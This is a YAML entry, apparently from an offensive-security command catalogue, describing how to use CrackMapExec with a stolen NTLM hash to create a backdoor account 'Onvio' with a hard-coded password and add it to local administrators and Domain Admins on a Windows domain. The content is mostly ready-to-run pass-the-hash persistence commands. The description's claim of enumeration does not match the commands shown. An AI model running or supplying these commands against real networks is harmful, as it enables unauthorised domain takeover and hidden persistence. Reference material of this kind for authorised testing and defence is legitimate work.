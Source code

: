 ```yaml
---
title: |
  Create a new domain admin account with CME
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate domain groups, local groups, logged on users, relative identifiers (RIDs), sessions, domain users, SMB shares/permissions, and get the domain password policy. Create a new domain admin account.

  Command Reference:

  	1. cme smb 192.168.1.10 -u <USER> -H <NTLM HASH> -d <DOMAIN> -x "net user Onvio Welkom01! /add"

  	2. cme smb 192.168.1.10 -u <USER> -H <NTLM HASH> -d <DOMAIN> -x "net localgroup administrators Onvio /add"

  	3. cme smb 192.168.1.10 -u <USER> -H <NTLM HASH> -d <DOMAIN> -x 'net group "Domain Admins" Onvio /add'

command: |
  See commands.
items:
  - Username
  - Password
  - Hash
services:
  - SMB
OS:
  - Linux
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```

